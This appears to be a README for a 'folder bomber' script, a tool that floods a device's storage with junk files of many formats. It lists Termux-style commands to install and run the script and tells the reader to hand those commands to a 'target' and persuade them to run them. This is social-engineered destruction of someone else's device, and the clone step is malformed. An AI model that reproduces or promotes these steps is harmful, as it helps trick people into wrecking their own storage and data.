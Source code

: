 # Warning❗❗

- This is a folder bomber to fill the target memory 
- Description :
When this script is run, after 10 seconds, it starts creating files in different formats, which fills the memory. 

- The formats it makes: txt,mp4,mp3,png,jpg,dvd,html .....

Give these commands to your target and tell them to enter them 

- Please do not test on your phone!!! 

    $pkg install git
    $pkg install python
    $pip3 install webbrowser
    $https://github.com/AmirHydra/folder_bomber.git
    $cd folder_bomber
    $python folder_bomber.py

- Good luck !!

- channel Telegram: @AmooHydra
- channel Rubika : @AmirHydra
